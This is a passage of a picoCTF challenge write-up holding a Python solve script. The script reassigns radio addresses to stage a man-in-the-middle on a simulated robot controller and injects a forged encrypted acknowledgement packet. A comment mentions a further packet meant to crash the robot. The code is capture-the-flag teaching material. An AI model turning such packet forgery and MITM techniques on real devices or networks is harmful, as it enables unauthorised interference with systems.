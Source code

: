## Solve Script

```python
import random
import requests
import asyncio
import time
import sys

SERVER_URL = "http://activist-birds.picoctf.net:" + sys.argv[1]

def receive_radio_messages():
    messages = requests.get(SERVER_URL+"/radio_rx").json()
    return messages

def inject_radio_message(message):
    requests.post(SERVER_URL + "/radio_tx", json=message)

def start_robot():
    requests.get(SERVER_URL+"/start")

def stop_robot():
    requests.get(SERVER_URL + "/stop")

def get_board_state():
    return requests.get(SERVER_URL + "/state").json()

def print_pkt(msg):
    copy = msg.copy()
    if 'encrypted' in copy:
        copy['encrypted'] = copy['encrypted'][0:8] + '...'
    print(copy)

# Set robot address so we can MITM

ME = 0x40
CONTROLLER = 0x69
ROBOT = 0x20

inject_radio_message({
    "msg_type": "set_addr",
    "src": ME,
    "dst": 0x10,
    "new_addr": CONTROLLER
})

ME = 0x10

# Bogus ack packet. Used to start recording secure_data_request & secure_data_response
async def bogus_ack():
    ack_packet = {
        'msg_type': 'secure_data_ack',
        'src': ME,
        'dst': ROBOT,
    }
    ack_packet['encrypted'] = '8b58b51c50e420e10f8a34559d13d418bbd2f5c2148c9b66c0f9d4a239971bb1ba3c3cec71fd09ccc650b85a42d15e455c0dee10ff03d83f7472393665ca229ff35335a0a3bfbac119d8260cadf8c77ea833b5c46d9782db25db0a8ba56ce8eb068360343d6c119da7b58157692012fcdf0622854d5266aa13414b8ec4f33d1cbabd84a7a30d9ee7fc8598d966739dcf50387a6b522fc889df505da92db0e2910386af7c18189d;a4fbb351432f4c31dd369c7fee7b31f7;eab0ae99aa6ce479fccfec29e06ee442ffbeb6091753b605'
    inject_radio_message(ack_packet)

# Bogus secure_data_response packet. Used to crash the robot.
```
